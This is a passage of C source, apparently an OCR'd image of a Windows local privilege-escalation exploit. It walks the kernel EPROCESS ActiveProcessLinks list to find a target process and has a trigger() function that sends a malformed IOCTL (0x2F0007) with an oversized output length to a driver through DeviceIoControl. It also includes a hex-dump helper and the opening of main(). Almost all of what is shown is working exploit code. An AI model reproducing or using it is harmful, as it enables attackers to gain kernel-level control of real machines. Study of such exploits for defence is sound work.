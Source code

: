 ```

    // adjust EPROCESS pointer for next entry
    pEPROCESS = (ULONG64)(ActiveProcessLinks.Flink) - ACTIVEPROCESSLINTOFFSET;
    // get pid
    UniqueProcessId = readQWORD((DWORD64)(pEPROCESS + UNIQUEPROCESSIDOFFSET));
    // is this our pid?
    if (pid == UniqueProcessId) {
      res = pEPROCESS;
      break;
    }
    // get next entry
    ActiveProcessLinks.Flink = (ULONGLONG) readQWORD((DWORD64)(pEPROCESS + ACTIVEPROCESSLINTOFFSET));
    ActiveProcessLinks.Blink = (ULONGLONG) readQWORD((DWORD64)(pEPROCESS + ACTIVEPROCESSLINTOFFSET + 8));
    // if next same as last, we reached the end
    if (pEPROCESS == (ULONG64)(ActiveProcessLinks.Flink) - ACTIVEPROCESSLINTOFFSET)
      break;
  }
  return res;
}

/******************  Exploit Helper END!!!!*****************/

void trigger(HANDLE hDevice) {
  DWORD returnByte;

  //*(GUID*)(inbuffer + 0) = { 0x1d58c920, 0xac9b, 0x11cf, {0xa5, 0xd6, 0x28, 0xdb, 0x04, 0xc1, 0x00, 0x00} };
  *(DWORD64 * )(inbuffer + 0x10) = 0x400000000; // 1 or 2 or 4
  *(DWORD * ) outbuffer = 2; // 1 or 2

  DeviceIoControl(hDevice, 0x2F0007, inbuffer, inputsize, outbuffer, 0xfffffff0, & returnByte, NULL);
}

VOID PrintHex(PBYTE Data, ULONG dwBytes) {
  for (ULONG i = 0; i < dwBytes; i += 16) {
    printf("%.8x: ", i);

    for (ULONG j = 0; j < 16; j++) {
      if (i + j < dwBytes) {
        printf("%.2x ", Data[i + j]);
      } else {
        printf("?? ");
      }
    }

    for (ULONG j = 0; j < 16; j++) {
      if (i + j < dwBytes && Data[i + j] >= 0x20 && Data[i + j] <= 0x7e) {
        printf("%c", Data[i + j]);
      } else {
        printf(".");
      }
    }

    printf("\n");
  }
}

int main(int argc, char ** argv) {
  CheckVersion();
```